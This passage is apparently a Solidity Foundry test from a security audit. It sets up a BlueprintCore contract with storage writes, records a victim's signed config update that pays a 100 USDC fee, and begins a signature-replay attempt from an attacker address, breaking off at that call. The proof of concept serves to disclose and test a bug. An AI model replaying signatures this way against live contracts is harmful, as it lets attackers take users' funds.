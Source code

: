 ```solidity
        vm.startPrank(address(this));

        // Simulate setting USDC is whitelisted to 'true' -- paymentAddressEnableMp[mockUSDC] = true (slot 25)
        bytes32 enableSlot = keccak256(abi.encode(address(mockUSDC), uint256(25)));
        vm.store(address(blueprintCore), enableSlot, bytes32(uint256(1)));

        // Simulate adding USDC to the whitelisted payment tokens array -- paymentAddressesMp["payment_key"].push(mockUSDC) (slot 24)
        bytes32 keySlot = keccak256(abi.encode("payment_key", uint256(24)));
        bytes32 arrayStart = keccak256(abi.encode(keySlot));
        vm.store(address(blueprintCore), keySlot, bytes32(uint256(1)));
        vm.store(address(blueprintCore), arrayStart, bytes32(uint256(uint160(address(mockUSDC)))));

        // Simulate setting the cost of updating an agent to 100 USDC
        blueprintCore.setPaymentOpCost(address(mockUSDC), "update_agent", 100 * USDC_DECIMALS);

        // Simulate setting the feeCollectionWalletAddress -- (slot 23)
        vm.store(address(blueprintCore), bytes32(uint256(23)), bytes32(uint256(uint160(feeCollectionWallet))));
        vm.stopPrank();

        // Victim decides to create an agent
        vm.prank(victimSigner);
        generatedRequestID = blueprintCore.createAgentWithToken(
            projectId,
            initialBase64Config,
            privateWorkerAddress,
            "app.crestal.network",
            address(mockUSDC)
        );

        // Simulate worker submitting proof
        vm.prank(privateWorkerAddress);
        blueprintCore.submitProofOfDeployment(projectId, generatedRequestID, "proofBase64");
    }

    function testSignatureReplay() public {
        // Generate digest and signature for the legitimate call by the victim
        bytes32 digest = blueprintCore.getRequestDeploymentDigest(projectId, updatedBase64Config, "app.crestal.network");
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(victimSignerPrivateKey, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        // First call: Legitimate call by the owner where he updates the config and pays the fee
        vm.prank(victimSigner);
        blueprintCore.updateWorkerDeploymentConfigWithSig(
            address(mockUSDC),
            projectId,
            generatedRequestID,
            updatedBase64Config,
            signature
        );
        (BlueprintCore.Status statusAfterFirstCall, ) = blueprintCore.requestDeploymentStatus(generatedRequestID);
        assertEq(uint256(statusAfterFirstCall), uint256(BlueprintCore.Status.Pickup));
        assertEq(mockUSDC.balanceOf(victimSigner), 900 * USDC_DECIMALS, "Fee should be paid in first call"); // Victim pays 100 USDC fee
        assertEq(mockUSDC.balanceOf(feeCollectionWallet), 100 * USDC_DECIMALS, "Fee should be paid in first call"); // to feeCollectionWallet

        // -- Second call: Attempt replay by an attacker -- //
        vm.prank(address(0xdeadbeef));
```